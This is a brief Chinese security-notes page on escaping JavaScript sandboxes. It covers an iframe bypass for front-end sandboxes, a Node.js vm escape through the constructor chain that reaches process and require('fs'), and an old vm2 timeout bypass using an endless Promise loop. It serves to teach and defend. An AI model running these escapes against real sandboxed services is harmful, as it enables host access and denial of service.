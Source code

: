 沙箱逃逸
========================================

前端沙箱
----------------------------------------
在前端中，可能会使用删除 ``eval`` ，重写 ``Function.prototype.constructor`` / ``GeneratorFunction`` / ``AsyncFunction`` 等方式来完成前端的沙箱。在这种情况下，可以使用创建一个新iframe的方式来获取新的执行环境。

服务端沙箱
----------------------------------------
JavaScript提供了原生的vm模块，用于隔离了代码上下文环境。但是在该环境中依然可以访问标准的JavaScript API和全局的NodeJS环境。

在原生的沙箱模块中，常用的逃逸方式为：

.. code-block:: javascript

    const vm = require('vm');
    const sandbox = {};
    const whatIsThis = vm.runInNewContext(`
        const ForeignObject = this.constructor;
        const ForeignFunction = ForeignObject.constructor;
        const process = ForeignFunction("return process")();
        const require = process.mainModule.require;
        require("fs");
    `, sandbox);


考虑到JavaScript原生vm模块的缺陷，有开发者设计了vm2来提供一个更安全的隔离环境，但是在旧版本中同样存在一些逃逸方式，例如：

.. code-block:: javascript

    vm.runInNewContext(
      'Promise.resolve().then(()=>{while(1)console.log("foo", Date.now());}); while(1)console.log(Date.now())',
      {console:{log(){console.log.apply(console,arguments);}}},
      {timeout:5}
    );
